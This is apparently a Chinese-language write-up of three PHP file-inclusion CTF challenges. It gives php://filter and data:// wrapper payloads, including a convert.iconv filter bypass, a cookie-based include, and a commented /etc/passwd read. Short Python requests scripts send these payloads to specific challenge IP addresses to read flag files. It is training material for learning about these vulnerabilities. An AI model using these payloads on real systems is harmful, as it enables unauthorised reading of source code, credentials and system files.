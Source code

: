 # file_include

知识点：convert.iconv.* 绕过

[详解php://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)

[writeup](https://blog.csdn.net/yuanxu8877/article/details/127607264)

`php://filter/convert.base64-encode/resource=index.php`如果没有过滤的话，可直接读取当前文件内容，同理一旦绕过过滤，check.php和flag.php就都能读到了，详细绕过过滤的教程见上面。

```python
import requests

# 目标URL
url = "http://61.147.171.105:60022/"
# payload= {'filename': '/etc/passwd'}
payload= {'filename': 'php://filter/convert.iconv.SJIS*.UCS-4*/resource=flag.php'}

response = requests.get(url, params=payload)
print(response.text)
```

# fileclude

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET["file1"]) && isset($_GET["file2"]))
{
    $file1 = $_GET["file1"];
    $file2 = $_GET["file2"];
    if(!empty($file1) && !empty($file2))
    {
        if(file_get_contents($file2) === "hello ctf")
        {
            include($file1);
        }
    }
    else
        die("NONONO");
}
```

感觉和上面的一样，甚至没有校验会更简单。但难点在`file_get_contents($file2) === "hello ctf"`这部分的处理。

[参考答案](https://blog.csdn.net/weixin_42789937/article/details/128060363)里面对于`php://`的分析挺好。这道题扩充了输入的知识。

```python
import requests
# 目标URL
url = "http://61.147.171.105:55818/"
# payload= {'filename': '/etc/passwd'}
payload= {
    'file1': 'php://filter/read=convert.base64-encode/resource=flag.php',
    'file2': 'data://text/plain,hello ctf'
}

response = requests.get(url, params=payload)
print(response.text)
```

# fileinclude

查看源码发现里面有php注释，如下

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

存在文件包含，在`cookie`中构造`php://filter/convert.base64-encode/resource=/var/www/html/flag`就能读出flag，然后解码就可以。



